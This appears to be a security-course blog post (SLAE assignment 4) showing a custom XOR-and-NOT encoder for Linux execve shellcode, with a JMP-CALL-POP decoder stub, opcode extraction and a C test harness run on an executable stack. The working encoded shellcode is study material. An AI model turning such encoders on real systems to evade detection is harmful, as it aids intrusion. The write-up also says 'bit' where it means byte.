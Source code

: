 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-XXXXX

## Assignment#4: What to do ?
For this assignment we have to:
* Create a custom encoding scheme 

Now, let's get to work.
=

 <div style="text-align: justify"> To do this task, I have chosen to use a two step encoding schema. The python code, used for this task, will run through the shellcode provided inside the 'shellcode' variable and then apply its routine on each bit. </div>

As said before, the shellcode will be encoded in two steps:
1) Each bit will be XOR with the 0xAA bit,
2) Then a NOT operation will be done

Below is the python code used to encode the shellcode:
```python
#!/usr/bin/python3
# Python XOR and NOT encoder

# The shellcode used is a basic systemcall to execve
shellcode = b"\x31\xdb\x53\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
encoded_shellcode = ""

print('Shellcode len: {}'.format(len(shellcode)))
print('Encoded shellcode ...')

# Encode the shellcode in two steps:
for x in bytearray(shellcode):
	# XOR encoder part
	# 0xAA is the Byte used to encode
	y = x ^ 0xAA

	# NOT encoder part
	y = ~y
	encoded_shellcode += '{},'.format(hex(y & 0xFF))

# Print an encoded shellcode format
print(encoded_shellcode)
```
Here is the results from the python encoder:
```console
kali@kali:/tmp$ python3 encoder.py 
Shellcode len: 30
Encoded shellcode ...
0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5,
```

The 'decoder.nasm' file use the famous JUMP-CALL-POP technique to avoid NULL BYTES.

To make it simple:
1) <div style="text-align: justify"> The JUMP PART of the assembly code will first initialize ecx to NULL then move the length of the shellcode inside cl. It will finally jump inside the POP section. </div>
2) The CALL PART will call the 'stage2' of the code by jumping to it and push the 'shellcode' variable on the stack
3) <div style="text-align: justify"> The POP PART will simply pop the 'shellcode' variable inside esi and let the execution continues. The decoding process can start by using the NOT and the XOR operations on each bit of the shellcode. </div>
4) Finally, we jump in and execute the decoded shellcode 

Below is the assembly code used to decode our shellcode then execute it:
```nasm
;A simple NOT and XOR decoder
;Using the JUMP-CALL-POP method

global _start

;JUMP PART
_start:
    xor ecx, ecx                    ;Initialize ecx to NULL
    mov cl, shellcodeLen            ;Initialize cl to the shellcode length
    jmp stage1                      ;Jump to the CALL part (stage1)

;POP PART
stage2:
    pop esi                         ;pop the shellcode inside esi

;DECRYPTION PART
stage3:
    not BYTE [esi]                  ;Start the decryption process by a NOT on the value inside esi
    xor BYTE [esi], 0xAA            ;Then XOR the value pointed in esi by 0xAA
    inc esi                         ;Increment the address stores inside esi
    loop stage3                     ;loop until the cl == 0, which means the shellcode is decoded

    jmp shellcode                   ;Jump to the decoded shellcode and execute it

;CALL PART
stage1:
    call stage2                     ;Call the second part (stage2)
    ;The encoded shellcode is stored here
    shellcode: db 0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
    shellcodeLen: equ $-shellcode   ;This lign is used to get the shellcode length
```

Let's compile it and get the shellcode from 'decoder.nasm':
```console
kali@kali:/$ nasm -f elf32 -o decoder.o decoder.nasm
kali@kali:/$ ld -m elf_i386 -z execstack -o decoder decoder.o
kali@kali:/$ objdump -d ./decoder |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5"
```

We can now add the newly generated shellcode to the following C code:
```c
#include <stdio.h>
#include <string.h>

// decoder.nasm shellcode is stored here
unsigned char shellcode[] = \
"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5";

int main()
{
	// print the length of the shellcode
	printf("Shellcode Length:  %d\n", strlen(shellcode));
	// convert shellcode to a function
	int (*ret)() = (int(*)())shellcode;
	// execute the shellcode has a function
	ret();

}
```

let's compile and execute it:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./test_shellcode
Shellcode Length:  52

kali@kali:/tmp/Shellcode/SLAE/assignment4$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
kali@kali:/tmp/Shellcode/SLAE/assignment4$ whoami
kali
kali@kali:/tmp/Shellcode/SLAE/assignment4$ exit
exit

kali@kali:/tmp$
```

